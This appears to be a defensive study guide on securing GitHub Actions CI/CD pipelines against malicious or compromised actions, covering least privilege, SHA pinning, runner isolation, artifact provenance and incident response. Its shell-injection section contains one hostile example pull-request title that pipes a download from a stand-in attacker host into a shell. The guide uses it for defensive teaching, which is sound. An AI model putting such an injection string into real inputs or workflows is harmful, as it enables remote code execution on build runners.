


# 13- Malicious and Compromised Actions

## Overview

GitHub Actions executes third-party and organization-owned software inside CI/CD workflows. An action therefore becomes part of the trusted computing base of the pipeline.

A malicious or compromised action can potentially:

- Read workflow inputs.
- Access environment variables.
- Access files on the runner.
- Use the `GITHUB_TOKEN`.
- Access secrets available to the job.
- Use OIDC permissions.
- Access cloud resources.
- Modify build artifacts.
- Modify deployment outputs.
- Abuse network connectivity.
- Persist on poorly isolated self-hosted runners.

The security model should therefore treat every action as executable code:

```text
Workflow
   ↓
Action
   ↓
Runner
   ↓
Permissions / Secrets / Network
   ↓
Artifacts / Deployments
```

A compromised action is especially dangerous when the workflow has excessive privileges.

The objective is not simply to prevent malicious actions from entering the repository. A production CI/CD design should also limit the blast radius when an action is compromised.

## Why Actions Are a Supply-Chain Boundary

A workflow such as:

```yaml
steps:
  - uses: actions/checkout@v4
  - uses: actions/setup-python@v5
  - uses: example/security-scan@v2
```

executes code from multiple repositories.

The application source may be reviewed carefully while an external action remains a separate dependency.

This creates:

```text
Application Repository
        ↓
GitHub Workflow
        ↓
Third-Party Actions
        ↓
Action Dependencies
        ↓
Runner
        ↓
Build / Artifact / Deployment
```

A compromise anywhere in this chain can affect the resulting CI/CD process.

## Malicious vs Compromised Actions

These terms describe different situations.

| Type | Description | Example |
|---|---|---|
| Malicious action | Intentionally designed to perform harmful behavior | Action steals environment secrets |
| Compromised action | Previously trusted action whose code or release process was compromised | Maintainer account compromised |
| Vulnerable action | Legitimate action containing exploitable security flaws | Unsafe command execution |
| Dependency-compromised action | Action is legitimate but one of its dependencies is compromised | Malicious npm dependency |
| Misconfigured action | Action is legitimate but used with excessive privileges | Deployment action receives broad permissions |

The security response differs, but the core principle is the same:

> The action must not receive more trust or privilege than its task requires.

## Action Trust Model

A useful trust model is:



Each connection represents a potential trust boundary.

For example:

```text
Action
  ↓
GITHUB_TOKEN
  ↓
Repository Write Access
```

is a different risk from:

```text
Action
  ↓
contents: read
```

## Attack Surface

A GitHub Action can interact with several resources.

| Resource | Potential Impact |
|---|---|
| Workspace | Source-code theft or modification |
| Environment variables | Credential or configuration exposure |
| `GITHUB_TOKEN` | Repository/API access |
| Secrets | Credential exposure |
| OIDC token | Cloud authentication |
| Filesystem | Data access or persistence |
| Network | Internal service access |
| Docker daemon | Container/build compromise |
| Artifacts | Supply-chain poisoning |
| Self-hosted runner | Infrastructure compromise |

The actual impact depends on the permissions and environment available to the job.

## Action Execution Model

A simplified workflow execution model is:

```text
Workflow Trigger
      ↓
Runner Allocation
      ↓
Action Download
      ↓
Action Execution
      ↓
Action Accesses Job Context
      ↓
Action Produces Outputs
      ↓
Next Step
      ↓
Artifact / Deployment
```

A malicious action can execute during the action step before later security controls have an opportunity to inspect its behavior.

This is why prevention and blast-radius reduction are both important.

## Third-Party Action Selection

Before introducing a third-party action, review:

- Repository ownership.
- Source code.
- Release history.
- Maintainer activity.
- Open issues.
- Dependencies.
- Required permissions.
- Secret requirements.
- Network behavior.
- Runtime.
- Documentation.
- Security history.
- Release process.

Do not select an action solely because it is popular or appears high in Marketplace search results.

A production selection process should resemble dependency evaluation:

```text
Requirement
   ↓
Candidate Action
   ↓
Source Review
   ↓
Permission Review
   ↓
Dependency Review
   ↓
Security Review
   ↓
Version / SHA Pinning
   ↓
Testing
```

## Trusted Sources

Organizations should define approved action sources.

For example:

```text
Approved
├── actions/*
├── aws-actions/*
└── organization/platform-actions/*

Restricted
└── Arbitrary Marketplace Actions
```

The exact policy depends on organizational risk.

An allowlist reduces dependency sprawl but does not eliminate the need for version control and review.

## Action Pinning

Avoid production workflows such as:

```yaml
- uses: example/action@main
```

A branch is mutable.

Version tags are better operationally:

```yaml
- uses: example/action@v4
```

but can also move.

For security-sensitive workflows, use a verified commit SHA:

```yaml
- uses: example/action@<verified-commit-sha>
```

SHA pinning provides a stable reference to a specific revision.

However:

```text
SHA Pinning
≠
Trusted Code
```

A malicious commit can also be pinned.

## Verify the SHA

Before adopting a SHA:

1. Identify the intended release.
2. Verify the upstream repository.
3. Verify the release-to-commit mapping.
4. Review the relevant source changes.
5. Test the action.
6. Update the workflow.
7. Run CI.
8. Merge through normal review.

The intended relationship is:

```text
Trusted Release
      ↓
Verified Commit
      ↓
Pinned SHA
      ↓
Workflow
```

## Action Dependencies

An action can contain its own dependency tree.

For JavaScript actions:

```text
Workflow
   ↓
JavaScript Action
   ↓
npm Dependencies
   ↓
Transitive Dependencies
```

For Docker actions:

```text
Workflow
   ↓
Docker Action
   ↓
Dockerfile
   ↓
Base Image
   ↓
OS Packages
```

Pinning the top-level action does not automatically eliminate vulnerabilities in the dependency tree.

Use appropriate dependency-management and security-scanning controls.

## GITHUB_TOKEN

A malicious action can potentially use the `GITHUB_TOKEN` available to its job.

Avoid broad permissions:

```yaml
permissions: write-all
```

Prefer explicit permissions:

```yaml
permissions:
  contents: read
```

If a deployment job needs additional permissions:

```yaml
jobs:
  deploy:
    permissions:
      contents: read
      id-token: write
```

Permissions should be granted according to the actual task.

## Job-Level Permissions

Job-level permissions provide an important blast-radius boundary.

For example:

```yaml
permissions:
  contents: read

jobs:
  test:
    runs-on: ubuntu-latest
    permissions:
      contents: read

  deploy:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      id-token: write
```

The test job does not need the deployment job's cloud authentication capability.

This reduces the impact of a compromised testing action.

## Secrets

Do not provide secrets to jobs that do not require them.

Prefer:

```text
Lint Job
  ↓
No Secrets

Test Job
  ↓
Test Credentials Only

Deployment Job
  ↓
Deployment Credentials / OIDC
```

rather than:

```text
Every Job
  ↓
All Secrets
```

Secret availability is a major part of the action blast radius.

## Secret Exposure Paths

A compromised action may attempt to access:

- Environment variables.
- Files containing credentials.
- Git configuration.
- Cloud configuration.
- Package-manager credentials.
- SSH keys.
- Docker credentials.
- Workflow secrets.
- Temporary files.

Therefore secrets should be scoped narrowly.

Avoid passing secrets through command arguments when possible because command-line values can appear in process inspection or logs depending on the environment.

## OIDC Risk

OIDC eliminates the need for many long-lived cloud credentials, but it does not eliminate cloud-access risk.

For example:

```yaml
permissions:
  id-token: write
```

allows the workflow to request an OIDC token.

If a compromised action runs inside that job, it may be able to operate within the cloud authentication flow available to the job.

Therefore:

```text
OIDC
+
Restricted IAM Trust Policy
+
Restricted IAM Permissions
+
Trusted Workflow
```

should be used together.

## AWS Authentication

A secure architecture is:

```text
GitHub Actions
      ↓
OIDC Token
      ↓
AWS STS
      ↓
Restricted IAM Role
      ↓
ECR / ECS / S3 / Lambda / EC2
```

The IAM role should restrict:

- Repository.
- Branch or environment where appropriate.
- Workflow identity claims where appropriate.
- AWS resources.
- AWS operations.

Avoid granting:

```text
AdministratorAccess
```

to a general-purpose CI job.

## Untrusted Pull Requests

Pull-request workflows can execute code controlled by contributors.

A safer architecture is:

```text
Fork PR
   ↓
pull_request
   ↓
Restricted Permissions
   ↓
No Production Secrets
   ↓
Isolated Runner
   ↓
Tests
```

Do not assume that a pinned action makes the PR workflow trustworthy.

The application code itself may be untrusted.

## `pull_request_target`

`pull_request_target` requires particular caution because it executes in the context of the base repository.

A dangerous pattern is:

```text
pull_request_target
       ↓
Checkout PR Code
       ↓
Execute PR Code
       ↓
Secrets Available
       ↓
Write Permissions
```

This can turn untrusted repository content into privileged code execution.

The fundamental rule is:

> Do not combine untrusted code execution with privileged repository or production credentials.

## Untrusted Input

Even trusted actions can be invoked using unsafe user-controlled values.

Potentially untrusted data includes:

- PR titles.
- Branch names.
- Commit messages.
- Issue content.
- Workflow inputs.
- Repository dispatch payloads.

Avoid:

```yaml
run: echo "${{ github.event.pull_request.title }}"
```

Prefer:

```yaml
env:
  PR_TITLE: ${{ github.event.pull_request.title }}

run: |
  printf '%s\n' "$PR_TITLE"
```

The action itself may be trusted while the input is not.

## Shell Injection

A malicious PR title such as:

```text
"; curl attacker.example | sh; echo "
```

can become dangerous if directly interpolated into shell code.

The safer pattern is:

```yaml
env:
  INPUT_VALUE: ${{ github.event.pull_request.title }}

run: |
  printf '%s\n' "$INPUT_VALUE"
```

Use validation and allowlists when input has an expected format.

## Python Subprocess Security

The same principle applies to Python code.

Avoid:

```python
import subprocess

subprocess.run(f"deploy {user_input}", shell=True, check=True)
```

Prefer structured arguments:

```python
import subprocess

subprocess.run(
    ["deploy", user_input],
    check=True,
)
```

Validate values when they are expected to follow a constrained format.

## Action Outputs

A compromised action may attempt to manipulate outputs.

For example:

```text
Action
  ↓
GITHUB_OUTPUT
  ↓
Job Output
  ↓
Deployment Job
```

Treat outputs as data crossing a trust boundary.

Validate structured output before using it for:

- Dynamic matrices.
- File paths.
- Shell commands.
- Deployment targets.
- Docker image references.
- Cloud resource names.

## Dynamic Matrices

A workflow may generate a matrix dynamically:

```yaml
- name: Generate matrix
  id: matrix
  run: |
    echo 'targets=["service-a","service-b"]' >> "$GITHUB_OUTPUT"
```

Later:

```yaml
strategy:
  matrix:
    service: ${{ fromJSON(needs.plan.outputs.targets) }}
```

If the generated data is influenced by untrusted input, validate it before passing it into execution logic.

Dynamic configuration should not become an indirect code-execution mechanism.

## Self-Hosted Runner Risk

Self-hosted runners can have access to:

- Private networks.
- Databases.
- Internal APIs.
- Cloud tooling.
- Persistent credentials.
- Docker.
- Local caches.
- Filesystem state.

A compromised action can therefore have a larger impact than it would on an isolated hosted runner.

The risk increases with persistent runners.

## Persistent vs Ephemeral Runners

| Runner | Security Property | Operational Trade-off |
|---|---|---|
| GitHub-hosted | Strong default isolation | Less infrastructure control |
| Persistent self-hosted | Reusable environment | Higher persistence risk |
| Ephemeral self-hosted | Disposable environment | More infrastructure complexity |
| Autoscaled ephemeral | Scalable and isolated | Higher platform complexity |

For privileged workloads, ephemeral runners provide a stronger isolation model.

## Runner Cleanup

Persistent runners should not retain sensitive state between jobs.

Potential leftovers include:

- Source code.
- Credentials.
- Docker layers.
- Package caches.
- Temporary files.
- Build artifacts.
- SSH configuration.

Ephemeral runners naturally reduce this persistence problem.

## Private Network Access

A self-hosted runner may be intentionally connected to a private network:

```text
GitHub Actions
      ↓
Self-Hosted Runner
      ↓
Private Network
 ┌────┴─────┐
 ↓          ↓
Database   Internal API
```

This creates a significant blast-radius boundary.

A compromised action could potentially use the runner as a bridge into internal infrastructure.

Use:

- Network segmentation.
- Firewall rules.
- Security groups.
- Restricted DNS.
- Egress controls.
- Ephemeral runners.
- Minimal credentials.

## Docker Socket Risk

If a self-hosted runner exposes:

```text
/var/run/docker.sock
```

to a workflow, access to the Docker daemon can provide significant host-level capabilities.

A malicious action running in the workflow may attempt to interact with the daemon.

Do not treat container execution as equivalent to strong host isolation when the Docker socket is available.

## Artifact Poisoning

A compromised action can modify build outputs.

For example:

```text
Source
  ↓
Build
  ↓
Compromised Action
  ↓
Modified Artifact
  ↓
Registry
  ↓
Production
```

The deployment system may not know that the artifact was altered during CI.

Protect the artifact pipeline using:

- Immutable artifact identifiers.
- Image digests.
- Provenance.
- Attestations.
- SBOMs.
- Controlled registries.
- Build isolation.
- Verification before deployment.

## Build Once, Promote Later

A production pipeline should preferably follow:

```text
Build
  ↓
Immutable Artifact
  ↓
Staging
  ↓
Approval
  ↓
Production
```

rather than rebuilding independently:

```text
Build Staging
      ↓
Staging

Build Production
      ↓
Production
```

Rebuilding introduces another opportunity for a compromised dependency or environment to alter the output.

## Docker Image Integrity

For containerized backends:

```text
Pinned Build Actions
       ↓
Buildx
       ↓
Docker Image
       ↓
Security Scan
       ↓
SBOM
       ↓
Immutable Digest
       ↓
ECR
       ↓
Deployment
```

An image digest identifies the exact artifact.

This complements action pinning:

```text
Action SHA
    ↓
Controls CI dependency

Image Digest
    ↓
Controls deployment artifact
```

## Artifact Provenance

Artifact provenance provides information about how an artifact was produced.

A mature model is:

```text
Source
  ↓
Trusted Workflow
  ↓
Pinned Actions
  ↓
Build
  ↓
Artifact
  ↓
Provenance
  ↓
Verification
  ↓
Deployment
```

This improves the ability to establish that the production artifact originated from the expected build process.

## SBOM

A Software Bill of Materials can describe dependencies included in an artifact.

For a Python backend:

```text
Application
   ↓
Python Dependencies
   ↓
Docker Image
   ↓
SBOM
```

For a Docker-based workflow, the SBOM can help identify vulnerable packages and dependencies.

SBOMs complement action security; they do not replace action review.

## Artifact Attestations and Signing

For higher-assurance pipelines, consider:

- Artifact attestations.
- Cryptographic signing.
- Provenance verification.
- Registry-side verification.
- Deployment policy enforcement.

The objective is to make the deployment decision depend on verifiable artifact identity and origin.

## Reusable Workflows

Reusable workflows can centralize security controls:

```yaml
jobs:
  ci:
    uses: organization/platform/.github/workflows/python-ci.yml@<verified-ref>
```

A shared workflow can standardize:

- Permissions.
- Approved actions.
- SHA pinning.
- Security scanning.
- Artifact handling.
- Runner selection.

However, the reusable workflow itself becomes a high-value dependency.

Protect it with:

- Code ownership.
- Branch protection.
- Review requirements.
- Controlled releases.
- Versioning.
- SHA pinning where appropriate.

## Internal Actions

Organizations can maintain trusted internal actions:

```text
platform-actions/
├── python-ci/
├── docker-build/
├── security-scan/
├── aws-auth/
└── deployment/
```

This reduces reliance on arbitrary Marketplace actions.

The internal action repository itself must be strongly protected because compromise can affect many downstream repositories.

## Blast Radius

The blast radius of a compromised action depends on:

```text
Action Privileges
+
Runner Privileges
+
Secrets
+
Network Access
+
Cloud Permissions
+
Artifact Access
```

For example:

```text
Compromised Lint Action
+
contents: read
+
GitHub-hosted runner
+
No secrets
```

has a significantly smaller blast radius than:

```text
Compromised Deployment Action
+
contents: write
+
id-token: write
+
Production Secrets
+
Persistent Self-Hosted Runner
+
Private Network
```

The second design should be treated as a highly privileged trust zone.

## Privilege Zoning

Separate workflows and jobs by trust level.

```text
Zone A: Public / PR
   ↓
No Production Secrets
No Cloud Write Access

Zone B: Trusted Build
   ↓
Artifact Creation
Restricted Credentials

Zone C: Deployment
   ↓
Protected Environment
OIDC
Restricted IAM

Zone D: Infrastructure
   ↓
Highly Restricted
Dedicated Runners
```

This makes compromise containment easier.

## Production Deployment Architecture

```mermaid
flowchart LR
    PR[Pull Request]
    CI[Restricted CI]
    Tests[Tests / Security]
    Build[Trusted Build]
    Artifact[Immutable Artifact]
    Registry[ECR]
    Stage[Staging]
    Approval[Production Approval]
    Prod[Production]
    Monitor[Monitoring]
    Rollback[Rollback]

    PR --> CI
    CI --> Tests
    Tests --> Build
    Build --> Artifact
    Artifact --> Registry
    Registry --> Stage
    Stage --> Approval
    Approval --> Prod
    Prod --> Monitor
    Monitor --> Rollback
```



The important property is that privileged deployment is separated from untrusted PR execution.

## Concurrency

A compromised action is not the only deployment risk.

Concurrent deployments can produce race conditions.

Use:

```yaml
concurrency:
  group: production-deployment
  cancel-in-progress: false
```

This ensures production deployments are coordinated.

Security and reliability controls should work together:

```text
Trusted Workflow
+
Pinned Actions
+
Least Privilege
+
Concurrency
+
Protected Environment
```

## Environment Protection

Production deployments should use protected environments where appropriate.

For example:

```yaml
environment:
  name: production
```

The environment can provide controls such as:

- Required reviewers.
- Deployment restrictions.
- Environment-scoped secrets.
- Deployment history.

This creates another boundary between CI and production.

## Monitoring

Monitor for:

- Unexpected action changes.
- Unexpected workflow modifications.
- New action dependencies.
- Permission changes.
- New secrets.
- Unexpected OIDC usage.
- Unexpected runner network traffic.
- Artifact changes.
- Unexpected deployments.

The goal is to detect both malicious behavior and configuration drift.

## Incident Detection

Potential indicators include:

```text
Unexpected Repository Modification
Unexpected API Calls
Unexpected Cloud API Activity
Unexpected Network Connections
Unexpected Artifact Changes
Unexpected Workflow Changes
Unexpected Runner Activity
```

Correlate:

```text
Workflow Run
+
Commit
+
Action SHA
+
Runner
+
Cloud Audit Logs
+
Artifact Digest
```

This creates a useful incident timeline.

## Incident Response

When an action is suspected to be compromised:

1. Identify the action repository.
2. Identify affected version and SHA.
3. Identify all workflows using it.
4. Identify all repositories consuming it.
5. Determine workflow permissions.
6. Determine secrets available to the action.
7. Determine OIDC permissions.
8. Identify affected runners.
9. Review workflow logs.
10. Review GitHub audit information.
11. Review AWS or cloud audit logs.
12. Disable or replace the affected action.
13. Rotate potentially exposed credentials.
14. Rebuild affected artifacts.
15. Verify artifact provenance.
16. Review deployments made during the exposure window.
17. Restore known-good workflow and artifact versions.
18. Document and remediate the root cause.

## Credential Rotation

If a compromised action had access to credentials, assume those credentials may be exposed unless evidence proves otherwise.

Potential credentials include:

- Cloud credentials.
- API tokens.
- Registry credentials.
- SSH keys.
- Database credentials.
- Package-manager credentials.

OIDC reduces the need for long-lived credentials, but cloud access must still be investigated.

## AWS Incident Investigation

Review:

- STS activity.
- IAM role usage.
- ECR activity.
- S3 access.
- ECS deployments.
- EC2 changes.
- Lambda changes.
- CloudFormation activity.

Correlate AWS events with GitHub workflow execution times.

## Rollback

Rollback should cover both the workflow dependency and the application artifact where required.

```text
Compromised Action
      ↓
Replace / Roll Back Action SHA
      ↓
Identify Known-Good Artifact
      ↓
Verify Artifact
      ↓
Redeploy
      ↓
Monitor
```

Do not assume that rolling back application code alone addresses a compromised CI dependency.

## Disaster Recovery

Maintain:

- Known-good action SHAs.
- Previous workflow revisions.
- Immutable artifacts.
- Artifact digests.
- Deployment history.
- Cloud audit logs.
- Recovery procedures.

A recovery path should not depend on the compromised dependency.

## Reliability

Security controls should not create uncontrolled operational fragility.

For example, requiring manual review for every low-risk action update may create update fatigue.

A practical model is:

```text
Low Risk
   ↓
Automated Validation

Medium Risk
   ↓
Automated Validation + Review

High Risk
   ↓
Security Review + Controlled Rollout
```

The exact classification should follow organizational policy.

## Cost Considerations

Security controls can increase CI/CD cost through:

- Additional security scans.
- Longer workflows.
- Ephemeral runner creation.
- SBOM generation.
- Artifact retention.
- Dependency testing.
- Dedicated runner infrastructure.

Optimize by:

- Caching safe dependencies.
- Running expensive scans at appropriate pipeline stages.
- Reusing workflows.
- Using ephemeral runners selectively.
- Avoiding redundant builds.
- Promoting immutable artifacts rather than rebuilding.

Security should not be achieved by unnecessarily duplicating expensive workloads.

## Common Mistakes

### Trusting Marketplace Popularity

Popularity does not guarantee security.

Review the source, permissions, dependencies, and release process.

### Using Mutable Action References

Avoid:

```yaml
uses: example/action@main
```

for sensitive workflows.

### Pinning a Malicious Commit

A SHA only identifies a commit.

Verify what the commit contains before trusting it.

### Giving Every Job Write Permissions

Avoid:

```yaml
permissions: write-all
```

Use job-specific permissions.

### Giving Every Job Production Secrets

Separate:

```text
CI
```

from:

```text
Deployment
```

and expose production credentials only in the protected deployment context.

### Giving OIDC to PR Jobs

Do not grant cloud identity permissions to workflows that execute untrusted code unless the trust model explicitly requires it and is appropriately constrained.

### Using `pull_request_target` to Run PR Code

This can combine untrusted code with privileged repository context.

### Running Untrusted Code on Persistent Self-Hosted Runners

A persistent runner can retain sensitive state after the workflow completes.

Prefer isolated or ephemeral execution for untrusted workloads.

### Ignoring Network Access

A runner with access to an internal network gives a compromised action additional targets.

### Rebuilding for Each Environment

Rebuilding increases the number of opportunities for the artifact to change.

Prefer:

```text
Build Once
→ Promote Same Artifact
```

### Assuming Containers Guarantee Isolation

A Docker container is not a complete security boundary if the workflow has access to the host Docker daemon or privileged host capabilities.

## Troubleshooting

Use the standard failure-domain model:

```text
Symptom
→ Possible Causes
→ Isolation Strategy
→ Commands / Checks
→ Root Cause
→ Corrective Action
→ Prevention
```

### Unexpected Repository Changes

**Possible causes**

- Compromised action.
- Excessive `GITHUB_TOKEN` permissions.
- Malicious script.
- Compromised dependency.

**Isolation**

Check:

```text
Workflow Run
→ Action SHA
→ Permissions
→ Changed Files
→ Audit History
```

**Prevention**

Use least privilege and trusted action references.

### Unexpected AWS Activity

**Possible causes**

- Compromised deployment action.
- Excessive IAM permissions.
- OIDC trust-policy weakness.
- Exposed credentials.

**Isolation**

Correlate:

```text
GitHub Workflow
→ OIDC
→ STS
→ IAM Role
→ CloudTrail Activity
```

### Unexpected Artifact Contents

**Possible causes**

- Compromised build action.
- Malicious dependency.
- Build script modification.
- Runner contamination.

**Isolation**

Compare:

```text
Source Commit
+
Workflow Revision
+
Action SHA
+
Artifact Digest
```

Rebuild in a clean environment if necessary.

### Self-Hosted Runner Behaves Unexpectedly

Check:

```text
Runner Process
Runner Filesystem
Network Connections
Docker Processes
Environment Variables
Credential Stores
Recent Jobs
```

If compromise is suspected, isolate and replace the runner rather than assuming cleanup is sufficient.

### Action Suddenly Requires New Permissions

**Possible causes**

- Action update.
- Workflow configuration change.
- New action functionality.

Do not automatically grant the requested permission.

Review why the permission is required and whether the workflow architecture should change.

### Workflow Works After Replacing the Action but Deployment Still Fails

Check whether the compromised action may have modified:

- Artifacts.
- Registry images.
- Deployment configuration.
- Infrastructure state.
- Generated files.

Replacing the action does not automatically repair already-produced artifacts.

## GitHub CLI Operations

List workflows:

```bash
gh workflow list
```

List recent runs:

```bash
gh run list
```

Inspect a workflow run:

```bash
gh run view RUN_ID
```

View workflow logs:

```bash
gh run view RUN_ID --log
```

Inspect Actions permissions:

```bash
gh api repos/{owner}/{repo}/actions/permissions
```

Inspect workflow permissions:

```bash
gh api repos/{owner}/{repo}/actions/permissions/workflow
```

List repository secrets without exposing their values:

```bash
gh secret list
```

List releases:

```bash
gh release list
```

List repository environments:

```bash
gh api repos/{owner}/{repo}/environments
```

Use these commands as part of operational investigation rather than as a replacement for security monitoring and audit systems.

## Enterprise Governance

A mature organization should define an action governance model.

```text
Enterprise Security Policy
          ↓
Approved Sources
          ↓
Version / SHA Policy
          ↓
Permission Standards
          ↓
Runner Standards
          ↓
Repository Workflows
```

Governance should address:

- Approved action sources.
- SHA pinning.
- Dependency updates.
- Security reviews.
- Action allowlists.
- Marketplace restrictions.
- Reusable workflow governance.
- Runner governance.
- Permission standards.
- Production deployment controls.
- Incident response.

## Action Inventory

Maintain an inventory containing:

| Field | Example |
|---|---|
| Action | `example/action` |
| Version | `v4.2.1` |
| SHA | `abc123...` |
| Repository | `backend-api` |
| Workflow | `deploy.yml` |
| Job | `deploy` |
| Permissions | `contents: read`, `id-token: write` |
| Secrets | Environment-scoped |
| Runner | GitHub-hosted |
| Environment | Production |
| Owner | Platform Team |
| Review Status | Approved |

This enables rapid impact analysis when an action is compromised.

## Secure Action Update Lifecycle

A controlled lifecycle is:

```mermaid
flowchart LR
    Release[New Action Release]
    Review[Review Source and Changes]
    Verify[Verify Revision]
    Update[Update Reference]
    CI[CI and Security Tests]
    Approval[Review / Approval]
    Deploy[Controlled Rollout]
    Monitor[Monitor]
    Rollback[Rollback]

    Release --> Review
    Review --> Verify
    Verify --> Update
    Update --> CI
    CI --> Approval
    Approval --> Deploy
    Deploy --> Monitor
    Monitor --> Rollback
```



The same lifecycle should apply to high-impact internal actions.

## Production Security Architecture



The critical architectural property is separation of trust zones.

## Senior-Level Design Principles

### Treat Actions as Executable Dependencies

A workflow reference is not merely configuration.

```yaml
uses: example/action@...
```

introduces executable code into the pipeline.

### Minimize Blast Radius

Assume an action can fail or become compromised.

Design so that compromise produces the smallest practical impact.

Use:

- Minimal permissions.
- Scoped secrets.
- Isolated runners.
- Restricted networks.
- Protected environments.
- Restricted IAM.
- Immutable artifacts.

### Separate Untrusted and Trusted Workloads

Do not mix:

```text
Untrusted PR Code
```

with:

```text
Production Credentials
```

Use separate workflows, jobs, permissions, environments, and runners where appropriate.

### Protect the Build Boundary

The build process determines what reaches production.

Therefore:

```text
Source
 ↓
Trusted Workflow
 ↓
Trusted Actions
 ↓
Controlled Runner
 ↓
Immutable Artifact
 ↓
Verified Deployment
```

must be treated as one security chain.

### Assume Dependencies Can Fail

A resilient CI/CD architecture should assume that:

- An action can be compromised.
- A dependency can be compromised.
- A runner can be compromised.
- A credential can leak.
- An artifact can be poisoned.
- A deployment can fail.

The architecture should contain the failure rather than depending entirely on prevention.

## Interview Preparation

### What Happens If a Third-Party Action Is Compromised?

Discuss:

- Action permissions.
- Secrets.
- GITHUB_TOKEN.
- OIDC.
- Runner access.
- Network access.
- Artifact integrity.
- Cloud permissions.
- Incident response.

### How Would You Reduce the Blast Radius?

Design:

```text
Least Privilege
+
Scoped Secrets
+
Restricted OIDC
+
Ephemeral Runners
+
Network Segmentation
+
Protected Environments
+
Immutable Artifacts
```

### Why Is SHA Pinning Not Enough?

Explain:

```text
SHA Pinning
→
Controls Revision
```

but does not prove:

```text
Revision
→
Trustworthy Code
```

### How Would You Secure PR Workflows?

Discuss:

- `pull_request`.
- Fork trust boundaries.
- Minimal permissions.
- No production secrets.
- Safe handling of untrusted input.
- Restricted runners.
- Pinned actions.

### Why Is `pull_request_target` Dangerous?

Explain how checking out and executing untrusted PR code inside a privileged base-repository context can expose secrets or write capabilities.

### How Would You Secure AWS Deployment?

Design:

```text
Trusted Workflow
      ↓
Pinned Actions
      ↓
OIDC
      ↓
STS
      ↓
Restricted IAM Role
      ↓
ECR / ECS / EC2 / Lambda
```

Avoid long-lived AWS credentials and minimize IAM permissions.

### How Would You Protect a Self-Hosted Runner?

Discuss:

- Ephemeral execution.
- Runner groups.
- Labels.
- Network segmentation.
- Minimal permissions.
- No unnecessary secrets.
- Cleanup.
- Autoscaling.
- Monitoring.

### How Would You Respond to a Compromised Action?

Explain:

```text
Identify Action and SHA
        ↓
Inventory Consumers
        ↓
Assess Permissions
        ↓
Assess Secrets / OIDC
        ↓
Review Logs and Audit Events
        ↓
Replace Action
        ↓
Rotate Credentials
        ↓
Rebuild Artifacts
        ↓
Validate Deployments
        ↓
Restore Known-Good State
```

### How Would You Secure a Docker Deployment Pipeline?

Use:

```text
Pinned Actions
→ Buildx
→ Multi-stage Build
→ Security Scan
→ SBOM
→ Immutable Image Digest
→ ECR
→ Staging
→ Approval
→ Production
```

### How Would You Handle a Compromised Internal Action?

Treat it as a potentially organization-wide incident.

Determine:

- All consumers.
- All affected SHAs.
- All workflow executions.
- Permissions.
- Secrets.
- OIDC access.
- Artifacts.
- Deployments.
- Runner exposure.

Then contain, rotate, rebuild, replace, and verify.

## Production Checklist

### Action Security

- [ ] Third-party actions are reviewed before adoption.
- [ ] Approved action sources are defined.
- [ ] Security-sensitive actions use verified SHA references.
- [ ] Mutable branch references are avoided.
- [ ] Action dependencies are reviewed.
- [ ] Action updates follow a controlled lifecycle.

### Permissions

- [ ] `GITHUB_TOKEN` permissions are minimized.
- [ ] Job-level permissions are used where appropriate.
- [ ] `id-token: write` is limited to required jobs.
- [ ] AWS IAM roles use least privilege.
- [ ] Production deployment permissions are isolated.

### Secrets

- [ ] Production secrets are not exposed to PR workflows.
- [ ] Secrets are scoped to required jobs/environments.
- [ ] Secret values are not passed unnecessarily through command arguments.
- [ ] Credential rotation procedures exist.
- [ ] OIDC is preferred over long-lived cloud credentials where appropriate.

### Runners

- [ ] Untrusted workloads use appropriate isolation.
- [ ] Persistent self-hosted runners are minimized.
- [ ] Ephemeral runners are used for privileged or untrusted workloads where appropriate.
- [ ] Private network access is restricted.
- [ ] Docker daemon access is controlled.
- [ ] Runner groups and labels are governed.

### Artifacts

- [ ] Build artifacts are immutable.
- [ ] Container images can be identified by digest.
- [ ] Artifact provenance is available where required.
- [ ] SBOM generation is considered.
- [ ] Attestations or signing are considered for high-assurance workloads.
- [ ] Production promotes the same artifact tested in staging.

### Incident Response

- [ ] Action inventory exists.
- [ ] Workflow history is retained appropriately.
- [ ] Cloud audit logs are available.
- [ ] Known-good action SHAs are recoverable.
- [ ] Credential rotation procedures are documented.
- [ ] Artifact rebuild procedures exist.
- [ ] CI/CD compromise is included in incident-response planning.

## Key Takeaways

- Treat every GitHub Action as executable supply-chain code and evaluate its source, revision, dependencies, permissions, secrets, runner, and network access.
- A compromised action is most dangerous when it runs with excessive privileges; least-privilege permissions, scoped secrets, restricted OIDC, and isolated runners reduce the blast radius.
